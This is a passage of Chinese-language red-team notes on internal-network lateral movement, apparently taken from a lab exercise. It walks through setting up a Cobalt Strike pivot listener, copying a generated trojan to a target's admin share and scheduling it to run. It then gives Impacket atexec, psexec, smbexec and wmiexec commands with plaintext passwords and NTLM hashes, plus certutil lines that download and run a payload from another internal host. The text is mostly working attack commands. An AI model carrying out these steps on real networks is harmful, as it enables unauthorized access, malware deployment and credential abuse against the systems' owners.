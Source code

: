 

3.2、反向连接操作步骤：
1，CS中在提权的会话中，选择“代理转发”、“转发上线”模块（这一步也可以叫做新增监听器）

2，设置转发上线的IP地址
注意：
此时是反向连接，是让目标机器反向连接当前受控机器；且处于内网环境下，所以应该选择当前受控主机的内网IP地址！

3，使用CS生成木马，上传到目标主机（监听器选择刚刚设置的当前主机）
生成木马为5555.exe（名字自定义）

4，CS利用提权过的system会话，选择文件管理将生成的5555.exe木马上传到当前主机上
`shell copy 5555.exe \\192.168.3.21\c$`
shell at \\192.168.3.21 12:51 c:\5555.exe


----------------------------------------------------------------------------------------------------------------------------------------------------


**impacket**
Impacket 工具包是红队人员内网横向使用频率最多的工具包之一，而Impacket 是一个标准 Python
类库，用于对 SMB1-3 或 IPv4 / IPv6 上的 TCP、UDP、ICMP、IGMP，ARP，IPv4，IPv6，SMB，
MSRPC，NTLM，Kerberos，WMI，LDAP 等协议进行低级编程访问。可以独立安装，也可以直接打开命令行调用python去使用。
1、安装模块命令：pip install impacket
2、impacket-0.10.0\examples  -------python代码版
3、impacket-examples-windows   ---exe版
3.1、例如：
shell atexec.exe god/administrator:Admin12345@192.168.3.21  "whoami"
shell atexec.exe  -hashes  :ccef208c6485269c20db2cad21734fe7  god/administrator@192.168.3.21  "whoami"


shell atexec.exe god/administrator:Admin12345@192.168.3.21  "certutil.exe -urlcache -split -f http://192.168.3.31/7777.exe  8888.exe"
shell atexec.exe god/administrator:Admin12345@192.168.3.21  "8888.exe"

3.2、开启“代理转发”-"socks代理“,然后开启Proxifier，填写代理地址（CS监听器的IP，CS服务端的地址），在本地cmd窗口执行上面命令：

atexec.exe god/administrator:Admin12345@192.168.3.21  "whoami"
atexec.exe  -hashes  :ccef208c6485269c20db2cad21734fe7  god/administrator@192.168.3.21  "whoami"


atexec.exe god/administrator:Admin12345@192.168.3.21  "certutil.exe -urlcache -split -f http://192.168.3.31/7777.exe  8888.exe"
atexec.exe god/administrator:Admin12345@192.168.3.21  "8888.exe"


atexec.exe god/administrator:Admin12345@192.168.3.21  "certutil.exe -urlcache -split -f http://192.168.3.31/7777.exe  8888.exe&8888.exe"


psexec.exe god/administrator:Admin12345@192.168.3.21
whoami
certutil.exe -urlcache -split -f http://192.168.3.31/7777.exe  8888.exe&8888.exe


python smbexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/Administrator@192.168.3.21

python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7
god/Administrator@192.168.3.21
